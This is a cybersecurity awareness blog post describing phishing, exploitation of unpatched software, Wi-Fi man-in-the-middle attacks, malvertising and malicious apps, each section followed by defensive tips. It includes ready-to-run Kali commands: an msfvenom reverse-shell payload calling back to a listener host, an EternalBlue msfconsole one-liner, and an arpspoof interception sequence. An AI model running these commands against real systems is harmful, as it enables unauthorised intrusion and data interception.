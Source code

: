 ```yaml
---
title: "How Hackers Gain Access to Devices & How to Defend Yourself"
date: 2025-02-02
categories: [Cybersecurity, Awareness]
tags: [hacking, phishing, malware, security, forensics]
image:
    path: /assets/img/thumbnails/hackers.png
---
```


## 1. Social Engineering (Advanced Phishing)
Phishing remains one of the most effective hacking techniques, leveraging human psychology rather than technical exploits.

### How the Attack Works:
- Attackers send emails, SMS, or WhatsApp messages impersonating legitimate organizations.
- The message contains a **malicious link** leading to a fake login page.
- The victim unknowingly enters their credentials, allowing hackers to steal passwords.

```bash
# Kali Linux command example for phishing:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > /tmp/phishing_payload.exe
```

### How to Protect Yourself:
✔ Always verify the sender and URL before clicking links.  
✔ Enable **two-factor authentication (2FA)** for extra security.  
✔ Use a **password manager** to detect fake login pages.


## 2. Exploiting Software Vulnerabilities (Zero-Days & Exploits)
Hackers take advantage of **unpatched software vulnerabilities** to gain remote access.

### How the Attack Works:
- Attackers find security flaws in software, operating systems, or browsers.
- They inject malicious scripts into websites, files, or PDFs.
- When the victim opens the infected content, malware is installed silently.

```bash
# Kali Linux command example for exploiting a vulnerability:
searchsploit ms17-010
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue; set RHOSTS 192.168.1.105; run"
```

### How to Protect Yourself:
✔ Keep your **software and OS updated** to patch vulnerabilities.  
✔ Use **firewalls and endpoint security solutions**.  
✔ Avoid downloading files from **unknown or untrusted sources**.


## 3. Man-in-the-Middle Attacks (Wi-Fi Eavesdropping)
Public Wi-Fi networks can be **hacker-controlled traps** used to intercept sensitive data.

### How the Attack Works:
- Hackers set up a **fake Wi-Fi hotspot** in public places (e.g., "Free_Coffee_Spot").
- Unsuspecting victims connect and unknowingly expose their data.
- Attackers intercept login credentials, emails, and financial details.

```bash
# Kali Linux command example for MITM attack:
airmon-ng start wlan0
airodump-ng wlan0mon
arpspoof -i wlan0 -t 192.168.1.5 192.168.1.1
```

### How to Protect Yourself:
✔ Never connect to **public Wi-Fi without a VPN**.  
✔ Use **HTTPS websites** to encrypt traffic.  
✔ Turn off **Wi-Fi auto-connect** on your devices.


## 4. Malvertising (Drive-By Downloads)
Malicious ads can infect devices without requiring clicks.

### How the Attack Works:
- Cybercriminals insert **malware into online advertisements**.
- These ads appear on legitimate websites, affecting unsuspecting users.
- Simply loading a page with a malicious ad can trigger automatic downloads.

```bash
# Kali Linux command example for detecting malicious traffic:
burpsuite
# Analyze HTTP requests to detect suspicious redirects.
```

### How to Protect Yourself:
✔ Use **ad blockers** like uBlock Origin.  
✔ Keep **browser extensions updated**.  
✔ Disable **JavaScript on untrusted sites**.

## 5. Malicious Mobile Apps
Fake apps can steal data, track activities, and even gain remote control over a device.

### How the Attack Works:
- Hackers create fake apps disguised as legitimate ones.
- Victims install them from **third-party app stores**.
- The app requests excessive permissions and **steals personal data**.

```bash
# Kali Linux command example for mobile app analysis:
apktool d suspicious_app.apk
# Inspect the decompiled code for malicious behavior.
```

### How to Protect Yourself:
✔ Download apps **only from official stores (Google Play, Apple App Store)**.  
✔ Check app **permissions** before installing.  
✔ Use **mobile security software** to detect threats.

## Conclusion: How to Stay Secure
Hackers use **multiple attack vectors**, but with **awareness** and **proactive measures**, you can protect yourself.

✔ **Stay informed** about emerging cyber threats.  
✔ **Keep software updated** to prevent exploits.  
✔ **Enable 2FA** to secure online accounts.  
✔ **Use a VPN** and avoid public Wi-Fi risks.  
✔ **Be skeptical** of unexpected messages and links.

Cybersecurity is not just a technical field—it's a mindset. Stay alert and protect your digital presence! 

---

💬 **What cybersecurity tips do you follow to stay safe?**

**More coming soon**